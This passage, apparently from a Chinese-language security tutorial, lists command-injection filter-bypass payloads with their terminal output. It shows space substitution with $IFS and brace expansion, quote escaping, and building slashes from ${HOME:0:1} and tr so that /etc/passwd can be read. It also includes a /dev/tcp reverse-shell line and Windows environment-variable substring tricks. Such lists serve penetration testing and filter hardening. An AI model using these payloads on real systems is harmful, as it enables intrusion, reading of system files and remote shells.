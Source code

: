 **<a class="reference-link" name="%E7%A9%BA%E6%A0%BC%E7%BB%95%E8%BF%87"></a>空格绕过**

linux平台：

```
root@localhost:~/Www$ cat&lt;/etc/passwd
root:x:0:0:root:/root:/bin/bash

root@localhost▸ ~ ▸ $ `{`cat,/etc/passwd`}`
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

root@localhost▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

root@localhost▸ ~ ▸ $ echo$`{`IFS`}`"RCE"$`{`IFS`}`&amp;&amp;cat$`{`IFS`}`/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

root@localhost▸ ~ ▸ $ X=$'uname\x20-a'&amp;&amp;$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

root@localhost▸ ~ ▸ $ sh&lt;/dev/tcp/127.0.0.1/4242

```

windows平台：

```
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

**<a class="reference-link" name="%E5%BC%95%E5%8F%B7%E9%80%83%E9%80%B8"></a>引号逃逸**

当恶意命令被扩在引号内时，可用 \ 转义引号逃逸

**<a class="reference-link" name="%E4%B8%8D%E5%B8%A6%E5%8F%8D%E6%96%9C%E6%9D%A0%E5%92%8C%E6%96%9C%E6%9D%A0%E7%9A%84%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C"></a>不带反斜杠和斜杠的命令执行**

linux bash：

```
root@veek▸ ~ ▸ $ echo $`{`HOME:0:1`}`
/

root@veek▸ ~ ▸ $ cat $`{`HOME:0:1`}`etc$`{`HOME:0:1`}`passwd
root:x:0:0:root:/root:/bin/bash

root@veek▸ ~ ▸ $ echo . | tr '!-0' '"-1'
/

root@veek▸ ~ ▸ $ tr '!-0' '"-1' &lt;&lt;&lt; .
/

root@veek▸ ~ ▸ $ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```
